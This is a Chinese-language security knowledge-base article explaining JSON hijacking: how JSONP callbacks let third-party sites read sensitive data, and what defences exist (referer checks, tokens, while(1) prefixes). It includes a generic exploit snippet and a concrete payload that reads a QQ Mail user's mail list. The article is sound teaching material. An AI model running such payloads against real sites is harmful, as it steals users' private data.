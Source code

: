 # Json hijacking/Json劫持漏洞

**0x00 相关背景介绍**

JSON(JavaScript Object Notation) 是一种轻量级的数据交换格式。易于人阅读和编写。同时也易于机器解析和生成。它基于JavaScript Programming Language, Standard ECMA-262 3rd Edition - December 1999的一个子集。 JSON采用完全独立于语言的文本格式，但是也使用了类似于C语言家族的习惯（包括C, C++, C#, Java, JavaScript, Perl, Python等）。这些特性使JSON成为理想的数据交换语言。

这种纯文本的数据交互方式由于可以天然的在浏览器中使用，所以随着ajax和web业务的发展得到了广大的发展，各种大型网站都开始使用，包括Yahoo，Google，Tencent，Baidu等等。

但是如果这种交互的方式用来传递敏感的数据，并且传输的时候没有做太多安全性控制的话将导致安全漏洞，根据敏感信息的不同导致会导致应用遭受不同级别的攻击。

**0x01 成因**

JSON属于javascript的一种实际应用，作为数据传输的一种有效方式，在使用的时候必须考虑到javascript在浏览器里的跨域安全策略影响，一般来说，譬如要传输如下的数据

```
$data=array("username"=>"wooyun",  
   "password"=>"wooyun"  
);  

```

JSON实际应用的时候会有两种传输数据的方式：

xmlhttp获取数据方式：

```
{"username":"wooyun","password":"wooyun"}  

```

当在前端获取数据的时候，由于数据获取方和数据提供方属于同一个域譬如www.wooyun.org下面，属于同一个可信的安全区域。所以可以使用xmlhttp的方式来获取数据，然后再用xmlhttp获取到的数据传入自己的js逻辑譬如eval（也可以使用其他方式），这种方式下数据可以保证只在可信的域下传输，不会（目前的浏览器的环境下是这样）导致数据向不可信的第三方泄露。

script获取数据方式：

```
userinfo={"username":"wooyun","password":"wooyun"}  

```

如果传输的数据在两个不同的域，譬如对于大的互联网公司，代表了A应用的A域名想获取代表B应用的B域名的数据时，由于在javascript里无法跨域获取数据，所以一般采取script标签的方式获取数据，传入一些callback来获取最终的数据。譬如获取上面数据的时候可以使用

```
<script src="http://www.wooyun.org/userdata.php?callback=userinfo"></script>  

```

由于数据在两个完全不同的域里传输，如果缺乏有效地控制就会导致数据被泄露给第三方程序。

**0x02 攻击方式及危害**

通过分析应用里的数据交互，我们经常可以发现敏感信息泄露的情况发生。通常的方式包括，抓取应用的交互，查看里面敏感的数据，如果在传输的时候没有安全控制，就可以发现此类漏洞了。

主要的危害是对于一些数据敏感的应用会造成较严重的攻击，对于数据不敏感甚至是对第三方公开的应用来说，这类问题基本不算是安全问题，通过在第三方域使用javascript hijacking的方式我们就可以窃取到敏感数据了。一般的exploit代码形式如下：

```
<script>  
function wooyun_callback(a){  
alert(a);  
}  
</script>  
<script src="http://www.wooyun.org/userdata.php?callback=wooyun_callback"></script>  

```

**0x03 实际案例**

[WooYun: QQMail邮件泄露漏洞](http://www.wooyun.org/bugs/wooyun-2010-046)

通过构造URL让用户访问，可以获得QQ Mail的邮件列表。该漏洞由于需要在web QQ里共享QQ Mail里的邮件信息，所以QQ Mail开放了一个json接口以提供第三方的域名来获得QQ Mail的信息，但是由于该接口缺乏足够的认证，所以导致任何第三方域里都可以用script的方式来获取该邮件列表。

```
<script>  
var Qmail={};  
</script>  
<script src="http://mail.qq.com/cgi-bin/login?fun=passport&target=MLIST&t=login.js&pagesize=10&resp_charset=gb2312&1=3"></script>  
<script>  
alert(Qmail.newMailsList.nextUrl);  
alert(document.scripts[1].src=Qmail.newMailsList.nextUrl);  
alert(Qmail.newMailsList.summary);  
</script>  

```

**0x04 修复方案**

尽量避免跨域的数据传输，对于同域的数据传输使用xmlhttp的方式作为数据获取的方式，依赖于javascript在浏览器域里的安全性保护数据。如果是跨域的数据传输，必须要对敏感的数据获取做权限认证，具体的方式可以包括：

```
1 referer的来源限制，利用前端referer的不可伪造性来保障请求数据的应用来源于可信的地方，此种方式力度较稀，完全依赖于referer，某些情况下（如存在xss）可能导致被绕过。
2 token的加入，严格来说，这种利用javascript hijacking的方式获取数据是CSRF的一种，不过较之传统的CSRF不能获取数据只能提交而言，这种方式利用javascript可以获取一些敏感信息而已。如果我们能让攻击者对接口未知，就可以实现json
 hijacking的防御了。利用token对调用者的身份进行认证，这种方式对于调用者的身份会要求力度较细，但是一旦出现xss也可能导致前端Token的泄露，从而导致保护失效。
3
对于同域的json使用情况下，可以在数据的输出头部加入while(1);的方式避免数据被script标签的方式引用，这可以防止一些比较有特性的浏览器里导致的数据泄漏。

```

**0x05 相关其他安全问题**

1 json正确的http头输出

**0x06 相关资源**

http://www.json.org/json-zh.html